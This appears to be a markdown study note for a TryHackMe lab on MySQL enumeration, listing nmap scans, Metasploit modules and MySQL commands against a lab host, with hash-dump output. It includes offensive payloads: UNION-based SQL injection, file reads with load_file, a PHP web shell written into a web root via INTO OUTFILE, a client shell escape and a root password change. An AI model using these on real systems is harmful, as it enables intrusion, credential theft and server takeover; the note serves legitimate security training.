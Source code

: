 ## Pre-requisite --> [[tryhackme/services/enumeration]]

## MySQL enumeration practically:

we're going to assume that you found the **credentials: "root:password"** while enumerating subdomains of a web server.

### Requirements
```python
sudo apt install default-mysql-client
```

## Manual enumeration:
>Scanning with nmap:
```sh
nmap -sT -A 10.10.19.225
```

![[MySQL1.png]]

### Connect

#### Local
```sh
mysql -u root # Connect to root without password
mysql -u root -p # A password will be asked (check someone)
```

#### Remote
```sh
mysql -h <Hostname> -u root
mysql -h <Hostname> -u root@localhost
```

**Example** - 
```sh
mysql -h 10.10.19.225 -u root -p
```
   ![[MySQL2.png]]
   We had used above credentials(root:password) for login purpose and now we exit from this session with "exit" command.

>Finding the username with nmap script:
```sh
nmap -p 3306 --script=mysql-enum 10.10.19.225
```
   ![[MySQL3.png]]

### External Enumeration
>Some of the enumeration actions require valid credentials
```sh
nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 <IP>
msf> use auxiliary/scanner/mysql/mysql_version
msf> use auxiliary/scanner/mysql/mysql_authbypass_hashdump
msf> use auxiliary/scanner/mysql/mysql_hashdump #Creds
msf> use auxiliary/admin/mysql/mysql_enum #Creds
msf> use auxiliary/scanner/mysql/mysql_schemadump #Creds 
msf> use exploit/windows/mysql/mysql_start_up #Execute commands Windows, Creds
```


## Metasploit enumeration:
**Above two steps is same in this phase**

```python
msf6 > search mysql_sql
msf6 auxiliary(admin/mysql/mysql_sql) > options
msf6 auxiliary(admin/mysql/mysql_sql) > set RHOSTS 10.10.19.225
msf6 auxiliary(admin/mysql/mysql_sql) > set USERNAME root
msf6 auxiliary(admin/mysql/mysql_sql) > set PASSWORD password
msf6 auxiliary(admin/mysql/mysql_sql) > run
[*] Running module against 10.10.19.225

[*] 10.10.19.225:3306 - Sending statement: 'select version()'...
[*] 10.10.19.225:3306 -  | 5.7.29-0ubuntu0.18.04.1 |
[*] Auxiliary module execution completed

```
**Result** - We get the version of database that is running on the server.

#### MySQL hashdump to find the username with hashes:
```python
msf6 auxiliary(scanner/mysql/mysql_schemadump) > use auxiliary/scanner/mysql/mysql_hashdump
msf6 auxiliary(scanner/mysql/mysql_hashdump) > options
msf6 auxiliary(scanner/mysql/mysql_hashdump) > set PASSWORD password
PASSWORD => password
msf6 auxiliary(scanner/mysql/mysql_hashdump) > set RHOSTS 10.10.19.225
RHOSTS => 10.10.19.225
msf6 auxiliary(scanner/mysql/mysql_hashdump) > set USERNAME root
msf6 auxiliary(scanner/mysql/mysql_hashdump) > run

[+] 10.10.19.225:3306     - Saving HashString as Loot: root:
[+] 10.10.19.225:3306     - Saving HashString as Loot: mysql.session:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.19.225:3306     - Saving HashString as Loot: mysql.sys:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.19.225:3306     - Saving HashString as Loot: debian-sys-maint:*D9C95B328FE46FFAE1A55A2DE5719A8681B2F79E
[+] 10.10.19.225:3306     - Saving HashString as Loot: root:*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
[+] 10.10.19.225:3306     - Saving HashString as Loot: carl:*EA031893AA21444B170FC2162A56978B8CEECE18
[*] 10.10.19.225:3306     - Scanned 1 of 1 hosts (100% complete)

```
Now, we can crack the hash with john the ripper and login with ssh. 

### [**Brute force**](https://book.hacktricks.xyz/generic-methodologies-and-resources/brute-force#mysql)
>Write any binary data
```sh
CONVERT(unhex("6f6e2e786d6c55540900037748b75c7249b75"), BINARY)
CONVERT(from_base64("aG9sYWFhCg=="), BINARY)
```

### MySQL commands
```sh
show databases;
use <database>;
connect <database>;
show tables;
describe <table_name>;
show columns from <table>;

select version(); #version
select @@version(); #version
select user(); #User
select database(); #database name

#Get a shell with the mysql client user
\! sh

#Basic MySQLi
Union Select 1,2,3,4,group_concat(0x7c,table_name,0x7C) from information_schema.tables
Union Select 1,2,3,4,column_name from information_schema.columns where table_name="<TABLE NAME>"

#Read & Write
## Yo need FILE privilege to read & write to files.
select load_file('/var/lib/mysql-files/key.txt'); #Read file
select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE 'C:/xampp/htdocs/back.php'

#Try to change MySQL root password
UPDATE mysql.user SET Password=PASSWORD('MyNewPass') WHERE User='root';
UPDATE mysql.user SET authentication_string=PASSWORD('MyNewPass') WHERE User='root';
FLUSH PRIVILEGES;
quit;
```

```sh
mysql -u username -p < manycommands.sql #A file with all the commands you want to execute
mysql -u root -h 127.0.0.1 -e 'show databases;'
```

### MySQL Permissions Enumeration
```sh
#Mysql
SHOW GRANTS [FOR user];
SHOW GRANTS;
SHOW GRANTS FOR 'root'@'localhost';
SHOW GRANTS FOR CURRENT_USER();

# Get users, permissions & hashes
SELECT * FROM mysql.user;

#From DB
select * from mysql.user where user='root'; 
## Get users with file_priv
select user,file_priv from mysql.user where file_priv='Y';
## Get users with Super_priv
select user,Super_priv from mysql.user where Super_priv='Y';

# List functions
SELECT routine_name FROM information_schema.routines WHERE routine_type = 'FUNCTION';
#@ Functions not from sys. db
SELECT routine_name FROM information_schema.routines WHERE routine_type = 'FUNCTION' AND routine_schema!='sys';
```

